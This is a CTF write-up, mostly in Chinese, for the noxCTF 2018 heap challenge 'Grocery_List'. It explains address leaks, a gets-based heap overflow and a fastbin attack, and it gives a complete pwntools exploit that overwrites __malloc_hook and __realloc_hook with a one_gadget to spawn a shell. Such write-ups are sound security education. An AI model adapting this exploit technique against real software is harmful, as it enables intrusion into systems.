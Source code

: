 ```yaml
---
title: Grocery_List_Noxctf
date: 2018-09-11 12:59:39
tags: pwn heap
layout: post
---
```

Grocery_List

atk by hooks 
<!--more-->
## 0x00 Analysis

[Timu][1]

首先checksec发现标配全保护


## 0x01 LeakAddress
菜单中1选项的print可以泄露
```arm
do_puts("\n----------");
  for ( i = 0; i < sum; ++i )
  {
    printf("%d. %s\n", (unsigned int)i, array[i]);
    fflush(stdout);
  }
```
但是遗憾地,在对chunk内容做操作的时候都会在用\0截断防止我们的leak
### stack
在Add default examplez中泄露了一个栈地址
### heap
在删除chunk后没将内容置为0所以可以删除后再malloc回来获得fd指针从而获得heap地址

## 0x02漏洞分析
主要漏洞存在于：
Edit an existing item

这里的输入函数是gets造成了堆溢出
可以做fast_bin_atk

## 0x03漏洞利用
```python
add_empty(3)
remove(1)
payload="A"*0x18+p64(0x21)+p64(0x7fffffffdd00)+"\0"*0x10+p64(0x20)
edit(0,payload)
add_empty(2)
```
先创建chunk
free掉第二个chunk
第一个溢出覆盖fd
然后malloc两次获得fd+10区域的位置的写
但是需要注意对fakechunk的size的检查

在main函数中有;
```arm
v6 = 0x21LL;
```
所以可以在栈上构造small的chunk
来leak libc的基地址

泄露libc之后虽然本题没有给出libc但是luckily和另外的题目libc一样还和我的ubuntu也一样...
所以可以跳one_gadget


因为本题还开了canary和full relro
* canary：因为那个将\n换成\0我目前是没啥办法泄露canary
* full relro: got表不可写

libc已经泄露所以我们选择使用hooks
首先使用mallochook
但是发现4个one_gadget都没有符合条件
后来在大佬们的wp中学到了套路:
* 把mallochook指向realloc+0x10
    #不懂为啥....
* 改写realloc_hook为one_gadget

## 0x04 EXP
```python
from pwn import *
#context.log_level="debug"
def cmd(cmd):
	p.readuntil("Exit\n")
	p.sendline(str(cmd))
def example():
	cmd(6)
def show():
	cmd(1)
	sleep(0.1)
def remove(index):
	cmd(4)
	p.readuntil("emove?\n")
	p.sendline(str(index))
def edit(index,c):
	cmd(5)
	p.readuntil("edit?\n")
	p.sendline(str(index))
	p.readuntil("name: \n")
	p.sendline(c)
def add_empty(num,size=1):
	cmd(3)
	p.readuntil("Large\n")
	p.sendline(str(size))
	p.readuntil("to add?\n")
	p.sendline(str(num))
def fast_bin_atk():
	add_empty(3)
	remove(1)
	payload="A"*0x18+p64(0x21)+p64(0x7fffffffdd00)+"\0"*0x10+p64(0x20)
	edit(0,payload)
	add_empty(2)
p=process("./list")
#p=remote("chal.noxale.com",1232)
libc=ELF("./libc.so.6")
example()
show()
p.readuntil("0. ")
data=p.readline()
stack=u64(data[:-1].ljust(8,'\0'))-(0x7fffffffdd3b-0x00007ffffffde000)+0x20
gdb.attach(p)
log.info(hex(stack))
remove(0)
#stack leak over #
add_empty(2)
remove(1)
remove(0)
add_empty(1)
show()
p.readuntil("0. ")
data=p.readline()
heap=u64(data[:-1].ljust(8,'\0'))-(0x0000555555758440-0x0000555555757000)
log.info(hex(heap))
remove(0)
#heap leak over #
#do uaf to leak libc & pie#
#aim 0x7fffffffdd20-0x00007ffffffde000
fast_bin_atk()
show()
p.readuntil("3. ")
data=p.readline()
log.success("baseaddress:---------->%s",hex(u64(data[:-1].ljust(8,'\0'))))
base=u64(data[:-1].ljust(8,'\0'))-(0x00007ffff7a2d830-0x00007ffff7a0d000)
one_gadget=0x4526a+base
libc.address=base
#libc leak over#
mhook=libc.symbols['__malloc_hook']
rehook=libc.symbols['__realloc_hook']
log.success("mhook:---------->%s",hex(mhook))
log.success("rehook:---------->%s",hex(rehook))
add_empty(3,3)
remove(5)
payload="A"*0x68+p64(0x71)+p64(mhook-0x23)
edit(4,payload)
add_empty(2,3)
log.info(hex(libc.symbols['__libc_realloc']))
payload="A"*(0x13-0x8)+p64(one_gadget)+p64(libc.symbols['__libc_realloc']+0x10)
edit(7,payload)
add_empty(1,1)
p.interactive()
```
## 0x05 Review
hook平时还是用的太少了 差点点点点就做出来了

[1]:https://github.com/n132/banana/tree/master/Pwn/noxctf/list